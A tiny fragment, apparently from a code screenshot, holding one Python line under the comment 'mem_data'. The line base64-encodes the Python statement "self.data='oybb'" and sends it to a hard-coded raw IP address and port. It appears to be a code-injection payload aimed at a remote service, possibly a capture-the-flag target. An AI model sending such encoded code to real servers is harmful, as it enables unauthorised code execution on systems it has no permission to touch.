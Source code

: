 # mem_data
requests.get('http://139.196.88.54:1320/?parameter='+base64.urlsafe_b64encode("self.data='oybb'  ".encode()).decode() ).text

